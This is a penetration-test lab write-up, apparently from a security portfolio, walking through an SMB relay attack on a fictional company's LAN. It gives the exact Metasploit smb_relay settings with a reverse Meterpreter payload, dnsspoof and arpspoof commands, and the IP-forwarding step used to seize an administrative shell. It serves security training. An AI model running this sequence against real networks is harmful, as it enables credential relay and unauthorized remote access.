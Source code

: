 # Internal Penetration Test – Slytherin Solutions

## Scenario

You have been hired by Slytherin Solutions, a mid-sized technology company, to conduct a security assessment. The company wants to evaluate potential risks within its internal network and has authorized a controlled penetration test within the defined scope.

**Scope & Rules of Engagement**

- The penetration test is internal, meaning you are connected directly to their LAN.

- The network range for testing is 192.168.50.0/24.

- No credential brute-forcing to avoid locking out user accounts.

- Focus on network-based attacks, specifically SMB Relay and DNS spoofing.


**Objectives**

- Exploit misconfigurations using SMB Relay Attack.

- Manipulate network traffic using dnsspoof to redirect victims.


**Skills & Techniques Covered**

* Performing SMB Relay attacks against patched systems.
* Using dnsspoof to manipulate network traffic and redirect requests.
* Leveraging Metasploit for exploitation and session management.

**Tools Required**

- dnsspoof (for ARP and DNS spoofing)

- Metasploit Framework (for SMB relay exploitation)

## SMB Relay Attack Execution
In this scenario, I launched an SMB Relay Attack to intercept and relay authentication requests from a client machine to a target system, ultimately gaining a Meterpreter shell.

**Attack Flow**

* A client machine (192.168.50.12, running Windows 7) automatically attempts an SMB connection to \\fileserver.slytherin.com\wallet$ every 30 seconds.

* The attacker machine (192.168.50.23) spoofs the IP address of fileserver.slytherin.com to redirect SMB traffic.
* The client unknowingly connects to the attacker's machine instead of the real fileserver.slytherin.local.
*  The SMB Relay exploit (running on the attacker machine) captures and relays the authentication request to a vulnerable target (192.168.50.4).
*  The exploit successfully authenticates on the target and delivers a Windows Meterpreter shell, granting access to the system.

**Attack Execution**

Step 1: Start msfconsole and configure the SMB Relay exploit

````bash
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST 192.168.50.23
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.50.23
set SMBHOST 192.168.50.4
exploit
````

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr1_L.jpg)

Step 2: In a new tab, configure dnsspoof in order to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain: slytherin.com. Create a file with fake dns entry with all subdomains of
slytherin.com pointing to our attacker machine.

````bash
echo "192.168.50.23 *.slytherin.com" > hosts
````

- run dns spoof in the same tab

````bash
dnsspoof -i eth1 -f hosts
````

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr6_LI.jpg)

Step 3: Activate the MiTM attack using the ARP Spoofing technique. My goal is to poison the traffic between my victim, Windows 7 at 192.168.50.12, and the default gateway at 192.168.50.1. In this way, I can manipulate the traffic using dnsspoof, which is already running. 
In order to perform an ARP Spoofing attack, I enabled the IP forwarding as follow in a new tab (3):

````bash
echo 1 > /proc/sys/net/ipv4/ip_forward
````

In two separate terminals, start the ARP Spoof attack against 192.168.50.12 and 192.168.50.1 using these commands:

````bash
arpspoof -i eth1 -t 192.168.50.12 192.168.50.1
arpspoof -i eth1 -t 192.168.50.1 192.168.50.12
````
![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr2_LI.jpg)

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr3_L.jpg)

So, every time the victim starts an SMB connection, dnsspoof aligned with the ARP Spoof attack, forges the DNS replies telling that the searched DNS address is hosted at the attacker machine:

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr4_LI.jpg)

Instead of getting a DNS response with the real IP address of fileserver.slytherin.com, it received the IP of the attacker: 192.168.50.23. In Metasploit, every time there is an incoming SMB connection, the SMB Relay exploit
grabs the SMB hashes (credentials) and then uses them to get a shell on the target machine (192.168.5.4) - since it was set in the SMBHOST field of the smb-relay exploit.

![image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr5_LI.jpg)

## Key Takeaway
In this lab, I were able to trick the client by spoofing DNS records, this, in turn, combined with SMB relay attack, provided us with a meterpreter session on the target machine with administrative privileges.
